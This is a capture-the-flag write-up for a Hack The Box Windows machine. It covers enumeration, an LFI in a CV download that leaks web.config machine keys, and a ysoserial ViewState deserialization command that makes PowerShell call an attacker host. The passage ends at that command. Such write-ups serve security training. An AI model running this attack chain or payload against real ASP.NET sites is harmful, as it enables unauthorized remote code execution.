










## Initial Enumeration

As usual we are provided only one IP(**10.10.11.251**) as entry point and we know as well that the server will be Windows based!



We can start by running NMAP and checking for open ports over TCP protocol:

```
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
|_http-server-header: Microsoft-IIS/10.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=1/29%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=65B758FC%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=10D%TI=I%TS=U)
OPS(O1=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53ANW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)
```

Seems like only a HTTP website is open on the given address, I will try to check for open service on the UDP as well!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nmap -sU -F 10.10.11.251                                                                                                                                                                                                                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-29 08:55 CET
Nmap scan report for 10.10.11.251
Host is up (0.035s latency).
All 100 scanned ports on 10.10.11.251 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 5.95 seconds
```

Not much actually which means the foothold will be archived via some kind of web attack; I will add the ***pov.htb*** to the local host file and start by fuzzing the HTTP service.

* * *

## HTTP

Adding the hostname to our local host file and surfing we can see now the website:



We can see that the webserver is a IIS(obviosly) from Wappalizer:



Before doing anything I will check for possible other VHOSTS on the webserver:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://pov.htb/ -H "Host: FUZZ.pov.htb" -fl 234

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pov.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.pov.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 234
________________________________________________

dev                     [Status: 302, Size: 152, Words: 9, Lines: 2, Duration: 97ms]
:: Progress: [19966/19966] :: Job [1/1] :: 869 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```

Nice we found out a dev VHOST on the server, but what about possible hidden webdirectiories on the same server?

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://pov.htb/"                                                                                                                                                                                                                        

  _|. _ _  _  _  _ _|_    v0.4.3.post1                                                                                                                                                                                                                       
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                                      
                                                                                                                                                                                                                                                             
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_pov.htb/__24-01-29_09-18-19.txt

Target: http://pov.htb/

[09:18:19] Starting:                                                                                                                                                                                                                                         
[09:18:21] 403 -  312B  - /%2e%2e//google.com                               
[09:18:21] 301 -  141B  - /js  ->  http://pov.htb/js/                       
[09:18:21] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[09:18:21] 404 -    2KB - /.ashx                                            
[09:18:21] 404 -    2KB - /.asmx                                            
[09:18:25] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[09:18:27] 404 -    2KB - /admin%20/                                        
[09:18:28] 404 -    2KB - /admin.                                           
[09:18:36] 404 -    2KB - /asset..                                          
[09:18:38] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[09:18:41] 301 -  142B  - /css  ->  http://pov.htb/css/                     
[09:18:43] 400 -    3KB - /docpicker/internal_proxy/https/127.0.0.1:9043/ibm/console
[09:18:49] 301 -  142B  - /img  ->  http://pov.htb/img/                     
[09:18:49] 404 -    2KB - /index.php.                                       
[09:18:50] 404 -    2KB - /javax.faces.resource.../                         
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
[09:18:51] 400 -    3KB - /jolokia/search/*:j2eeType=J2EEServer,*           
[09:18:51] 400 -    3KB - /jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
[09:18:51] 400 -    3KB - /jolokia/write/java.lang:type=Memory/Verbose/true
[09:18:51] 400 -    3KB - /jolokia/read/java.lang:type=*/HeapMemoryUsage
[09:18:51] 403 -    1KB - /js/                                              
[09:18:51] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
[09:18:51] 400 -    3KB - /jolokia/exec/java.lang:type=Memory/gc
[09:18:53] 404 -    2KB - /login.wdm%2e                                     
[09:19:05] 404 -    2KB - /rating_over.                                     
[09:19:08] 404 -    2KB - /service.asmx                                     
[09:19:11] 404 -    2KB - /static..                                         
[09:19:15] 403 -    2KB - /Trace.axd                                        
[09:19:16] 404 -    2KB - /umbraco/webservices/codeEditorSave.asmx          
[09:19:19] 404 -    2KB - /WEB-INF./                                        
[09:19:20] 404 -    2KB - /WebResource.axd?d=LER8t9aS                       
                                                                             
Task Completed
```

Nothing much so let's try to check manually on the server?

Starting by the contact field seems like it isn't implemented and won't lead us anywhere:



Same story for the "Get Early Access" link:

```
<div class="col-6 align-self-center text-right">
                        <a href="#" class="text-white lead">Get Early Access</a>
                    </div>
```

I guess we can move forward to the Dev VHOST.

* * *

## Dev.pov.htb

Surfing manually to this website we are in front of a portfolio/CV like website of a web developer Stephen:



I will start by checking for hidden webfolders but couldn't get anything back.

From the website we can download Stephens CV:



And analyzing the metatags of the pdf but didn't unveil anything interesting about the pdf file:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# exiftool cv.pdf 
ExifTool Version Number         : 12.70
File Name                       : cv.pdf
Directory                       : .
File Size                       : 148 kB
File Modification Date/Time     : 2024:01:29 09:35:15+01:00
File Access Date/Time           : 2024:01:29 09:35:21+01:00
File Inode Change Date/Time     : 2024:01:29 09:35:15+01:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Language                        : es
Tagged PDF                      : Yes
XMP Toolkit                     : 3.1-701
Producer                        : Microsoft® Word para Microsoft 365
Creator                         : Turbo
Creator Tool                    : Microsoft® Word para Microsoft 365
Create Date                     : 2023:09:15 12:47:15-06:00
Modify Date                     : 2023:09:15 12:47:15-06:00
Document ID                     : uuid:3046DD6C-A619-4073-9589-BE6776F405F2
Instance ID                     : uuid:3046DD6C-A619-4073-9589-BE6776F405F2
Author                          : Turbo
```

&nbsp;Next I see a contact function that might be tested:



Next checking from the HTML source code I see a link to the port 8080:

```
<!-- Page Footer -->
    <footer class="page-footer">
        <div class="container">
            <div class="row align-items-center">
                <div class="col-sm-6">
                    <p>Copyright <script>document.write(new Date().getFullYear())</script> &copy; <a href="http://dev.pov.htb:8080" target="_blank">dev.pov.htb</a></p>
                </div>
                <div class="col-sm-6">
                    <div class="socials">
                        <a class="social-item" href="javascript:void(0)"><i class="ti-facebook"></i></a>
                        <a class="social-item" href="javascript:void(0)"><i class="ti-google"></i></a>
                        <a class="social-item" href="javascript:void(0)"><i class="ti-github"></i></a>
                        <a class="social-item" href="javascript:void(0)"><i class="ti-twitter"></i></a>
                    </div>
                </div>
            </div>
        </div>
    </footer>
```

but NMAP couldn't find it open? True! 

No other hidden VHOST were available but I found out some hidden secrets in aspnet encoded as B64:

```
<form method="post" action="./" id="form1">
<div class="aspNetHidden">
<input type="hidden" name="__EVENTTARGET" id="__EVENTTARGET" value="" />
<input type="hidden" name="__EVENTARGUMENT" id="__EVENTARGUMENT" value="" />
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="hIgTENIyx3ro27RUPDsWp8eQYDI3bgDyE860znvEMGQ1LpIZyKfTE7+hO+8wVWRfAG+YNvMFqSM+AT4UvHrkvnKpwFU=" />
</div>


<div class="aspNetHidden">

    <input type="hidden" name="__VIEWSTATEGENERATOR" id="__VIEWSTATEGENERATOR" value="8E0F0FA3" />
    <input type="hidden" name="__EVENTVALIDATION" id="__EVENTVALIDATION" value="RJfk03XIHIAMReUGVdGw9tZXKR+0E6vLfPOPCTHDvvc1lybWO3IAmkIYIzUvguAiC5HPZdMwUpcC28Qwlm2WB+jotaTqyed7mLJF8vPXG1HGK+ylv+Jluu1/FK6SwVeq5oUD8g==" />
</div>
                        <a id="download" class="btn btn-primary rounded mt-3" href="javascript:__doPostBack(&#39;download&#39;,&#39;&#39;)">Download CV</a>
                        <input type="hidden" name="file" id="file" value="cv.pdf" />
                    </form>                   
                </div>
            </div>
        </div>
    </section>
```

And googlin around seems like this could be exploited with serialization?

https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter

And following the guide I will start by using badsecrets to identifuy the secrets from HTML body:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# badsecrets -u 'http://dev.pov.htb/portfolio/default.aspx'                                                                                                                                                                                               

 __ )              |                                |                                                                                                                                                                                                        
 __ \    _` |   _` |   __|   _ \   __|   __|   _ \  __|   __|                                                                                                                                                                                                
 |   |  (   |  (   | \__ \   __/  (     |      __/  |   \__ \                                                                                                                                                                                                
____/  \__,_| \__,_| ____/ \___| \___| _|    \___| \__| ____/                                                                                                                                                                                                
                                                                                                                                                                                                                                                             
v0.4.436

Cryptographic Product Identified (no vulnerability, or not confirmed vulnerable)
                                                                                                                                                                                                                                                             
Detecting Module: ASPNET_Viewstate

Product Type: ASP.NET Viewstate
Product: clNMTGhAj5V2U0ZwD1CSwt8so1mecXGcP4Z794d9W4vkC/eipDJpZ9esZ4r6rm8QzriwRDtSmVcbqUZVShqjM8K/k5U=
Secret Type: ASP.NET MachineKey
Location: body
```

Running the BBOT didn't show that much more:

```
LAY RECAP *********************************************************************
localhost                  : ok=2    changed=1    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   
[SCAN]                  overzealous_alexander (SCAN:48282cb617634fa7a1ee925d5406fa75eed87ff7)   TARGET  (in-scope)
[DNS_NAME]              dev.pov.htb     TARGET->host    (in-scope, subdomain, target, unresolved)
[URL]                   http://dev.pov.htb/     TARGET->httpx   (dir, http-title-document-moved, in-scope, ip-10-10-11-251, status-302)
[URL]                   http://dev.pov.htb/portfolio/   httpx->excavate->httpx  (dir, http-title-dev-pov-htb, in-scope, ip-10-10-11-251, status-200)
[TECHNOLOGY]            {"host": "dev.pov.htb", "technology": "microsoft asp.net", "url": "http://dev.pov.htb/portfolio/"}      httpx->badsecrets       (in-scope)

[INFO] overzealous_alexander: Modules running (incoming:processing:outgoing) httpx(0:1:0)
[INFO] overzealous_alexander: Events produced so far: DNS_NAME_UNRESOLVED: 12, URL_UNVERIFIED: 9, URL: 2, HTTP_RESPONSE: 2, DNS_NAME: 1, OPEN_TCP_PORT: 1, TECHNOLOGY: 1
[INFO] overzealous_alexander: No events in queue
[INFO] Finishing scan
[VERB] Completed finish()
[VERB] Completed final finish()
[INFO] aggregate: +------------+------------------+---------------------------------------+
[INFO] aggregate: | Module     | Produced         | Consumed                              |
[INFO] aggregate: +============+==================+=======================================+
[INFO] aggregate: | httpx      | 2 (2 URL)        | 3 (1 OPEN_TCP_PORT, 2 URL_UNVERIFIED) |
[INFO] aggregate: +------------+------------------+---------------------------------------+
[INFO] aggregate: | host       | 1 (1 DNS_NAME)   | 0                                     |
[INFO] aggregate: +------------+------------------+---------------------------------------+
[INFO] aggregate: | badsecrets | 1 (1 TECHNOLOGY) | 2 (2 HTTP_RESPONSE)                   |
[INFO] aggregate: +------------+------------------+---------------------------------------+
[INFO] aggregate: | speculate  | 0                | 8 (2 HTTP_RESPONSE, 2 URL, 4          |
[INFO] aggregate: |            |                  | URL_UNVERIFIED)                       |
[INFO] aggregate: +------------+------------------+---------------------------------------+
[INFO] aggregate: | excavate   | 0                | 2 (2 HTTP_RESPONSE)                   |
[INFO] aggregate: +------------+------------------+---------------------------------------+
[VERB] aggregate: Wrote scan-stats to /root/.bbot/scans/overzealous_alexander/scan-stats-table-20240129_1008_28.txt
[INFO] output.csv: Saved CSV output to /root/.bbot/scans/overzealous_alexander/output.csv
[INFO] output.human: Saved TXT output to /root/.bbot/scans/overzealous_alexander/output.txt
[INFO] output.json: Saved JSON output to /root/.bbot/scans/overzealous_alexander/output.ndjson
[SUCC] Scan overzealous_alexander completed in 25 seconds with status FINISHED
```

Now here we need to know that version of .net framework is used which is:

```
(Found via Wappalyzer)
Microsoft ASP.NET
4.0.30319
```

Next I tried to install the Viewstate plugin in burpsuite to identify the viewstate(https://portswigger.net/bappstore/ba17d9fb487448b48368c22cb70048dc) but it can't identify it which is most likely because it's encrypted and we don't have the validation key:



I tried to use the windows based exploit to decrypt the mac state but couldn't match to the used:

```
C:\Users\AleksandarMilosavlje\Downloads\AspDotNetWrapper> .\AspDotNetWrapper.exe --keypath .\MachineKeys.txt --encrypteddata clNMTGhAj5V2U0ZwD1CSwt8so1mecXGcP4Z794d9W4vkC/eipDJpZ9esZ4r6rm8QzriwRDtSmVcbqUZVShqjM8K/k5U= --decrypt --purpose=viewstate  --modifier=CA0B0334 --macdecode


Decode process start!!

Pocessing machinekeys TripleDES,HMACSHA512: 3571/3571..............

Keys not found!!
```

So far we know:

1.  DotNet framework lower that 4.5
2.  Viewstateencryptionmode=true (aka encrypted)
3.  We don't have the validation key

This leads up to the only possible scenario https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter#test-case-3-.net-less-than-4.5-and-enableviewstatemac-true-false-and-viewstateencryptionmode-true

* * *

## LFI

So here I had to check for tips and apparently the CV download function is vulnerable to LFI. Indeed sending the filename to the hosts file we can read its content:



Now knowing that is a IIS we should be able to read the web.config file that holds all the configs of a vhosts:

```
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb
Content-Length: 360
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dev.pov.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://dev.pov.htb/portfolio/default.aspx
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=H5IUlXigunOXFuVueuY5k22b2LyqgIBQRl9sQkNUknm3CHmuMnCq93DMOx8ldSk7sww7j46W5ZNCmtuoHOHRju00ryM%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=BxmQGgZU%2FpL69vstKw7d2cyjJxw9YNQ%2FVen%2Fw79cN63PI9GQK0v1pHxmqvXsW41KSRrdUAisnMBvj9ksyZUbDynw1gCPEyYFOC7cqV%2Fd8e2sqj33eshouEXfUrD6CD7xz7I9bQ%3D%3D&file=/web.config
```

And now we the the decription/validation key as well:

```
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: application/octet-stream
Server: Microsoft-IIS/10.0
Content-Disposition: attachment; filename=/web.config
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Mon, 29 Jan 2024 11:43:48 GMT
Connection: close
Content-Length: 866

<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
    <system.webServer>
        <httpErrors>
            <remove statusCode="403" subStatusCode="-1" />
            <error statusCode="403" prefixLanguageFilePath="" path="http://dev.pov.htb:8080/portfolio" responseMode="Redirect" />
        </httpErrors>
        <httpRedirect enabled="true" destination="http://dev.pov.htb/portfolio" exactDestination="false" childOnly="true" />
    </system.webServer>
</configuration>
```

And now we could use this to form our payload:

https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-knowing-the-secret#for-.net-framework-less-than-4.0-legacy

After several test seems like the "VIEWSTATEGENERATOR" wasn't working out so I had to give the whole path of the app from the error:

```
C:\Users\AleksandarMilosavlje\Downloads\Release> ./ysoserial.exe  -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://10.10.16.3/test" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
